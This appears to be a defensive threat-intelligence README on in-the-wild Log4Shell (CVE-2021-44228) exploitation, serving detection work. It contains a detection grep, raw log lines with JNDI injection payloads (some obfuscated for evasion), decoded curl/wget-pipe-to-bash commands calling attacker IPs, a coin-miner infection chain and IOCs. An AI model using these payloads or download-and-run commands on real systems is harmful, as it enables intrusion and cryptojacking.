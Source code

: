 # CVE-2021-44228

[[_TOC_]]

## Exploitation detection

[Florian Roth](https://twitter.com/cyb3rops) provided [different methods to detect exploitation](https://gist.github.com/Neo23x0/e4c8b03ff8cdf1fa63b7d15db6e3860b).

## Exploitation examples

### Example 1 : Coin miner

**Stage 1**

Exploitation detection done via following command on logs 
```bash 
sudo egrep -i -r '\$\{jndi:(ldap[s]?|rmi|dns):/[^\n]+' /var/log
```

Results with truncated Base64

```bash
/var/log/apache2/access.log:45.155.205.233 - - [10/Dec/2021:13:07:34 +0000] "GET / HTTP/1.1" 200 3424 "-" "${jndi:ldap://45.155.205.233:12344/Basic/Command/Base64/KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC81MS45MS4yNC4xNjE6ODB8fHdnZXQgLXEgLU8tIDQ1LjE1NS4yMDUuMjMzOjU4NzQvNTxxxxxxxxxxxxxxxxxxxxx}"
```

Base64 decode to 

```bash
(curl -s 45.155.205.233:5874/xxx.xxx.xxx.xxx:80||wget -q -O- 45.155.205.233:5874/xxx.xxx.xxx.xxx:80)|bash
```

xxx.xxx.xxx.xxx is the target server tested if vulnerable. If vulnerable the server will do a hit on 45.155.205.233 port 5874/tcp

First seen of 45.155.205.233 is on December 4th and first attempts to exploit CVE-2021-44228 on December 10th

45.155.205.233 attempted to exploit other vulnerabilities - ***To be developed***.

**Stage2**

Once a hit is done on 45.155.205.233, another source enter into action.

```bash
access.log:109.237.96.124 - - [10/Dec/2021:15:25:30 +0000] "POST / HTTP/1.1" 200 3424 "-" "${jndi:ldap://80.71.158.12:5557/Basic/Command/Base64/KGN1cmwgLXMgODAuNzEuMTU4LjEyL2xoLnNofHx3Z2V0IC1xIC1PLSA4MC43MS4xNTguMTIvbGguc2gpfGJhc2g=}"
access.log:212.193.57.225 - - [10/Dec/2021:15:25:52 +0000] "POST / HTTP/1.1" 200 3424 "-" "${jndi:ldap://80.71.158.12:5557/Basic/Command/Base64/KGN1cmwgLXMgODAuNzEuMTU4LjEyL2xoLnNofHx3Z2V0IC1xIC1PLSA4MC43MS4xNTguMTIvbGguc2gpfGJhc2g=}"
access.log:212.193.57.225 - - [10/Dec/2021:15:54:59 +0000] "POST / HTTP/1.1" 200 3424 "-" "${jndi:ldap://80.71.158.12:5557/Basic/Command/Base64/KGN1cmwgLXMgODAuNzEuMTU4LjEyL2xoLnNofHx3Z2V0IC1xIC1PLSA4MC43MS4xNTguMTIvbGguc2gpfGJhc2g=}"
access.log:62.76.41.46 - - [10/Dec/2021:16:13:56 +0000] "POST / HTTP/1.1" 200 3424 "-" "${jndi:ldap://80.71.158.12:5557/Basic/Command/Base64/KGN1cmwgLXMgODAuNzEuMTU4LjEyL2xoLnNofHx3Z2V0IC1xIC1PLSA4MC43MS4xNTguMTIvbGguc2gpfGJhc2g=}"
```

With Base64 decoding to

```bash
(curl -s 80.71.158.12/lh.sh||wget -q -O- 80.71.158.12/lh.sh)|bash
```

**Stage 3**

``lh[.]sh`` [07b7746b922cf7d7fa821123a226ed36](https://www.virustotal.com/gui/file/063ccf736c2c19ca5db70b8d8a7cf00377899c16023c63fee836bdefadd336c1) is a shell script downloading the bellow files but also implementing persistence via crontab.

![ls.sh](lssh-download.png)

``lh[.]sh`` download and install following binaries
- [648effa354b3cbaad87b45f48d59c616](https://www.virustotal.com/gui/file/6e25ad03103a1a972b78c642bac09060fa79c460011dc5748cbb433cc459938b)
- [ccef46c7edf9131ccffc47bd69eb743b](https://www.virustotal.com/gui/file/c38c21120d8c17688f9aeb2af5bdafb6b75e1d2673b025b720e50232f888808a)

A certain number of other IOCs appear into ``ls[.]sh`` file that are listed bellow

**Stage 4**

Triggered by contrab

``lh2[.]sh`` - [0579a8907f34236b754b07331685d79e](https://www.virustotal.com/gui/file/7e9663f87255ae2ff78eb882efe8736431368f341849fec000543f027bdb4512)

## Example 2 evasion

JNDI everywhere

**Stage 1**

```bash
45.155.205.233 - - [12/Dec/2021:05:04:50 +0000] "GET /?x=${jndi:ldap://45.155.205.233:12344/Basic/Command/Base64/KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC81MS45MS4yNC4xNjE6ODB8fHdnZXQgLXEgLU8tIDQ1LjE1NS4yMDUuMjMzOjU4NzQvNTEuxxxxxxx} HTTP/1.1" 200 3424 "${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://45.155.205.233:12344/Basic/Command/Base64/KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC81MS45MS4yNC4xNjE6ODB8fHdnZXQgLXEgLU8tIDQ1LjE1NS4yMDUuMjMzOjU4NzQvNTEuxxxxxxx}" "${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://45.155.205.233:12344/Basic/Command/Base64/KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC81MS45MS4yNC4xNjE6ODB8fHdnZXQgLXEgLU8tIDQ1LjE1NS4yMDUuMjMzOjU4NzQvNTEuxxxxxxx}"
```

```bash
109.237.96.124 - - [12/Dec/2021:07:31:51 +0000] "GET /?x=${jndi:ldap://93.189.42.8:5557/Basic/Command/Base64/KGN1cmwgLXMgOTMuMTg5LjQyLjgvbGguc2h8fHdnZXQgLXEgLU8tIDxxxxxxx} HTTP/1.1" 200 3424 "${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://93.189.42.8:5557/Basic/Command/Base64/KGN1cmwgLXMgOTMuMTg5LjQyLjgvbGguc2h8fHdnZXQgLXEgLU8tIDxxxxxxx}" "${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://93.189.42.8:5557/Basic/Command/Base64/KGN1cmwgLXMgOTMuMTg5LjQyLjgvbGguc2h8fHdnZXQgLXEgLU8tIDxxxxxxx}"
```

Similar as example 1 stage 1

## Scans to be identified

```bash
167.172.44.255 - - [13/Dec/2021:08:20:30 +0000] "GET / HTTP/1.0" 200 11176 "-" "borchuk/3.1 ${jndi:ldap://167.172.44.255:1389/epepap}"
167.172.44.255 - - [13/Dec/2021:08:24:52 +0000] "GET / HTTP/1.0" 200 11176 "-" "borchuk/3.1 ${jndi:ldap://167.172.44.255:1389/epepap}"
167.172.44.255 - - [13/Dec/2021:08:47:21 +0000] "GET / HTTP/1.0" 200 11176 "-" "borchuk/3.1 ${jndi:ldap://167.172.44.255:42063/epepap}"
167.172.44.255 - - [13/Dec/2021:10:41:45 +0000] "GET / HTTP/1.0" 200 11176 "-" "borchuk/3.1 ${jndi:ldap://167.172.44.255:42063/epepap}"
```

## Scans of security researchers

### Kryptos Logic scans

```bash
${jndi:ldap://http80useragent.kryptoslogic-cve-2021-44228.com/http80useragent}
````

Host [kryptoslogic-cve-2021-44228.com](http://kryptoslogic-cve-2021-44228.com/) is operated by Kryptos Logic for the purposes of detected hosts vulnerable to CVE-2021-44228.

### Alphastrike.io scans

```bash
45.83.67.63 - - [13/Dec/2021:03:27:46 +0000] "GET /$%7Bjndi:dns://45.83.64.1/securityscan-http80%7D HTTP/1.1" 404 360 "${jndi:dns://45.83.64.1/securityscan-http80}" "${jndi:dns://45.83.64.1/securityscan-http80}"
```
## IOCs

45.155.205.233   
109.237.96.124  
212.193.57.225  
62.76.41.46  
80.71.158.12  
92.242.40.21  
82.118.18.201
93.189.42.8
195.54.160.149
167.172.44.255
07b7746b922cf7d7fa821123a226ed36  
648effa354b3cbaad87b45f48d59c616  
ccef46c7edf9131ccffc47bd69eb743b 
0579a8907f34236b754b07331685d79e